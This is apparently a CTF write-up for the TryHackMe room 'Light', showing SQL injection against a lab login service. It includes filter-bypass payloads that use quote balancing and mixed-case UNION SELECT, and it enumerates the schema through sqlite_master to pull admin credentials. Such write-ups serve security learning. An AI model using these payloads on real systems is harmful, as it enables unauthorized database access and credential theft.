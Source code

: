 # Light

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838" width="200">
</p>

> *Welcome to the Light database application!*

<br>

## 🧠 Intro
Welcome to **Light**, a short and clever room focused on **SQL Injection (SQLi)** and database misconfigurations. SQLi happens when an application directly includes unsanitized user input in SQL queries — allowing attackers to manipulate the query logic and extract sensitive data from the backend.  


*Deploy the machine and let's light this one up.* 🔦

<br>

## 🎯 Task
To pwn this room, we need to:

- Find the **username** and **password** of the **admin** user.
- Capture the **flag**.

<br>

## 🔍 Recon
The room description hints at connecting to the machine via netcat on port `1337`.

```bash
nc MACHINE_IP 1337
```

![Light_1](src/Light_1.png)

We're greeted by a minimal login interface. We try logging in with:

> Username: `smokey`

The server responds with the corresponding password — but doesn’t actually log us in. Strange. Seems like we’re just querying the database and getting a response.

Time to test for SQL injection. 😈

<br>

## 🧪 Exploitation (SQLi)

We start simple with the classic:

```sql
' OR 1=1 --
```

But the server blocks us:

> *For strange reasons I can't explain, any input containing /**, -- or, %0b is not allowed :)*

Okay, so comments and certain keywords are filtered. Let’s try without the comment:

```sql
' OR 1=1
```

And now we get:

> *Error: unrecognized token: "''' LIMIT 30"*

Looks like an issue with unmatched quotes. So we try:

```sql
' OR '1=1
```

Success! We get a password as a response — even though it's useless:

> *tF8tj2o94WE4LKC*

This confirm that SQLi works. Now let’s go deeper. We need to find out what DBMS we're dealing with.

We suspect it's **SQLite** (given the name *Light*), so we try this payload:

```sql
' UNION SELECT sqlite_version() '
```

...but the server complains:

> *Ahh there is a word in there I don't like :(*  

Looks like keywords are filtered in uppercase. What if we capitalize?

```
' Union Select sqlite_version() '
```

Boom. This works — we get:

> *3.31.1*

So we’re dealing with SQLite 3. Nice.

Now, let’s enumerate the schema via the `sqlite_master` table:

```sql
' Union Select sql From sqlite_master '
```

![Light_2](src/Light_2.png)

Perfect. Now let’s extract the data.

To list usernames:

```sql
' Union Select group_concat(username) From admintable '
```

![Light_3](src/Light_3.png)

Then for passwords:

```sql
' Union Select group_concat(password) From admintable '
```

![Light_4](src/Light_4.png)

Mission complete!

<br>

## 🏁 Got the Flag
On the admintable table, we find the username, the password and the flag.

```
flag{go_get_it}
```

*Straight from the shadows into the light.* 💡

<br>

## 📝 Notes
This room shows how powerful SQL injection can be even in very restricted environments. Filter bypassing, capitalization tricks, and knowledge of DBMS behavior are all key tools when digging into databases.

<br>

## 🏠 Room Info
- 🧩 [TryHackMe - Light](https://tryhackme.com/room/lightroom)
- 🏷️ Difficulty: Easy
- 🧠 Focus: SQLi (SQL Injection)
